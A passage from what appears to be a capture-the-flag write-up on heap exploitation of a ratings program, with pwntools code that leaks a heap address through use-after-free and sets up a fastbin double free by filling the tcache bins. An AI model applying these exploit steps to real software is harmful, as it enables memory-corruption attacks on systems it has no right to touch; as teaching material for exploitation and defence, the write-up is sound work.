 ```python
create(b"a" * 8)
show()
print(io.recvline())
print(io.recvline())

delete(1)
show()
print(io.recvline())
print(io.recvline())

"""
b'Your ratings: \n'
b'1: aaaaaaaa\n'
b'Your ratings: \n'
b'1: w\xa3c`\x05\n'
"""
```

### Fastbin Dup

What we could do next is to perform double free. However, this does not work
due to `tcachebins` mitigation. We could try to find a way to overwrite the `bk`
field which contain the key to prevent double free but this is not possible.
Unlike `tcachebins`, `fastbin` does not have the mechanism to detect double free.
So our goal now is to free the rating chunk into fastbin and perform double free
(also known as `fastbin dup`).

To achieve this, we would need to first fill up the `tcachebins` with chunks of size
`0x20`. Recall the `scream` function which enable us to allocate up to 50
arbitrary size chunks. Furthermore, this function also freed the allocated chunks
at the end, which is perfect for us.

```python
create(b"a" * 8)
create(b"b" * 8)
create(b"c" * 8)
delete(3)

show()
io.recvuntil(b"3: ")
heap_leak = u64(io.recvline().strip().ljust(8, b"\x00"))
log.info(f"{heap_leak=:#x}")
heap = heap_leak << 12
log.info(f"{heap=:#x}")
user_chunk = heap + 0x370

# fill up tcachebins
payload = b"\n".join([cyclic(0x10)] * 7 + [b"quit"])
scream(payload)

# fastbin dup
delete(1)
delete(2)
delete(1) # <=== DOUBLE FREE!!!
```
